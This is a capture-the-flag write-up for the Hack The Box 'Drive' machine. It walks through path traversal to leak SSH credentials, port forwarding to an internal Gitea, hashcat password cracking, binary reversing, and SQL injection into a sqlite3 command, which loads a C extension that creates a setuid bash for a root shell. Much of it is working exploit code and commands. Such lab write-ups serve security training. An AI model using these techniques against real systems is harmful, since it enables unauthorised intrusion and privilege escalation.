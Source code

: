 # Enumeration

Open Ports: 22,80 (redirects to http://drive.htb)
Filtered Port: 3000

```
echo "10.10.11.235 drive.htb" | sudo tee -a /etc/hosts
```

# Foothold

## Path Traversal

The file http://drive.htb/100/getFileDetail/ is also available under http://drive.htb/100/block/ 

Iteration reveals ssh username and password in a document.
http://drive.htb/79/block/ 

## Gitea ssh-portforwarding

The filtered port 3000 can be accessed from the intranet.

```
ssh -L 3000:drive.htb:3000 martin@10.10.11.235
```

Use the same password for the username martinCruz.

Password for the backups can be found in the script.

## Password cracking

Cracking some Sha1
```
hashcat -m 124 ../../hashes/sha1-hashes.txt /usr/share/wordlists/rockyou.txt.gz
```

# Root

## Reverseengeneer doodleGrive-cli

Letting Ghidra(CodeBrowser) analyzing the code shows a username and password to start the cli.

## SQL-Injection

On case5 is a SQL-Injection possible.

```
    snprintf(local_118,0xfa,
             "/usr/bin/sqlite3 /var/www/DoodleGrive/db.sqlite3 -line \'UPDATE accounts_customuser SE T is_active=1 WHERE username=\"%s\";\'"
             ,local_148);
```

## load-extension

https://www.sqlite.org/loadext.html

```
gcc -g -fPIC -shared YourCode.c -o YourCode.so
```

```
"+load_extension(YourCode.so)--; 
```

### Example extension
```
#include <sqlite3ext.h> /* Do not use <sqlite3.h>! */
SQLITE_EXTENSION_INIT1

#include <stdlib.h>

#ifdef _WIN32
__declspec(dllexport)
#endif

int sqlite3_extension_init(
  sqlite3 *db, 
  char **pzErrMsg, 
  const sqlite3_api_routines *pApi
){
  SQLITE_EXTENSION_INIT2(pApi);

  system("/usr/bin/cp /bin/bash /tmp/b");
  system("/usr/bin/chmod +s /tmp/b");

  return SQLITE_OK;
}
```

Get root shell
```
/tmp/b -p
```



